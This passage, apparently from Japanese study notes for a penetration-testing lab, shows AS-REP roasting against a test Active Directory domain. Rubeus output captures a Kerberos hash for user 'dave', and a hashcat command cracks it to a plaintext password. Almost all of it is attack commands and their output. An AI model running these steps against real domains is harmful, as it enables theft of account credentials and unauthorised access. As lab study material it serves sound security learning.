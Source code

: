 → 18200でhashcatする

```bash
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f337aa705bcb711f8bce2ca751a876a7564bdbd4a926c10da32b03ec750cf33a2c37abde02f28b7ab363ffa1d18c9dd0262e43ab6a5447db44f71256120f94c24b17b1df465beed362fcb14a539b4e9678029f3b3556413208e8d644fed540d453e1af6f20ab909fd3d9d35ea8b17958b56fd8658b144186042faaa676931b2b75716502775d1a18c11bd4c50df9c2a6b5a7ce2804df3c71c7dbbd7af7adf3092baa56ea865dd6e6fbc8311f940cd78609f1a6b0cd3fd150ba402f14fccd90757300452ce77e45757dc22:Flowers1
...
```

* windowsの場合

```powershell
PS C:\Tools> .\Rubeus.exe asreproast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```

hash.asreproastという名前のテキストファイルに結果を貼り付ける
